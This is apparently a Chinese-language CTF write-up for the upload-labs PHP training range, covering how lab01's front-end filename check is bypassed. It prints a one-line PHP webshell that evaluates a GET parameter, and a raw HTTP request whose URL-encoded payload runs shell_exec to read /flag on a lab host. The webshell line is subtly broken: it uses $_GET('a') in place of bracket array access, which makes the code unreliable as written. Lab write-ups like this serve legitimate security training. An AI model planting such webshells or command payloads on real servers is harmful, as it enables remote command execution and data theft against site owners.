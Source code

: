 # File Upload

## Upload labs

Challenge: *Upload-Labs-Linux*

### 简介

`upload-labs`是一个使用`php`语言编写的，专门收集渗透测试和CTF中遇到的各种上传漏洞的靶场。旨在帮助大家对上传漏洞有一个全面的了解。目前一共20关，每一关都包含着不同上传方式。

### 注意

1. 每一关没有固定的通关方法，大家不要自限思维！

2. 本项目提供的`writeup`只是起一个参考作用，希望大家可以分享出自己的通关思路。

3. 实在没有思路时，可以点击`查看提示`。

4. 如果黑盒情况下，实在做不出，可以点击`查看源码`。
5. **一般套路：需要使用扫描器扫描可能的注入入口** https://blog.csdn.net/elephantxiang/article/details/120406001
   * PHP 后缀字典生成 https://www.freebuf.com/articles/web/188464.html

### 后续

如在渗透测试实战中遇到新的上传漏洞类型，会更新到`upload-labs`中。当然如果你也希望参加到这个工作当中，欢迎`pull requests`给我!

项目地址：`https://github.com/c0ny1/upload-labs`

## lab01

Bare php file upload

**过滤发生在前端js，拦截数据包修改文件名**

![image-20240712205811006](./File Upload.assets/image-20240712205811006.png)

**需要准备文件马**

```php
<?php eval($_GET('a')); ?>
```

若存在对php的解析访问权限，通过GET/POST上传文件地址，即可触发PHP木马执行

```
GET /upload/php_webshell.php?a=%24%72%65%74%3d%73%68%65%6c%6c%5f%65%78%65%63%28%22%63%61%74%20%2f%66%6c%61%67%22%29%3b%65%63%68%6f%20%24%72%65%74%3b HTTP/1.1
Host: 113479ed-9c63-474d-a552-6ee0be04ba86.node5.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://113479ed-9c63-474d-a552-6ee0be04ba86.node5.buuoj.cn:81/Pass-01/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

